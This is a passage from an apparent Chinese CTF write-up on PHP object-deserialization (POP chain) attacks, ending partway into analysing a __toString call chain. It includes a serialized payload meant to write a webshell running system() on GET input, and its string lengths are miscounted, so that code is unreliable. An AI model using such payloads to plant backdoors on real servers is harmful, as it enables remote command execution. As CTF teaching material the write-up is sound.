 ![11-5.png](11-5.png)

到这里没有头绪了, 估计应该是反序列化攻击, 接下来看了一下 WP, 这里的解法是基于 ROP 链的 反序列化攻击:

### ROP 反序列化攻击

所谓的 ROP 反序列化攻击, 就是针对已有的反序列化逻辑, 精心设计一条调用链, 像多米诺骨牌一样一环一环调用, 最后执行特定的魔术方法, 触发执行链, 最终执行恶意代码。

例如:

```php
class Logger {
    public $logFile;
    public $data;

    function __destruct() {
        file_put_contents($this->logFile, $this->data);
    }
}
```

构造这样的反序列化:

```php
$payload = 'O:6:"Logger":2:{s:7:"logFile";s:10:"shell.php";s:4:"data";s:20:"<?php system($_GET[1]); ?>";}';
unserialize($payload);
```

即可部署一个 webshell。

### 分析调用链

在这里有几个关键语句:

```php
<?php

# class Cle4r
$this->test = $this->str;
# 如果 $str 是个 Show 对象, 会触发 Show 的 __toString()

# class Show
public function __toString()
{
    $content = $this->str['str']->source;
    return $content;
}
```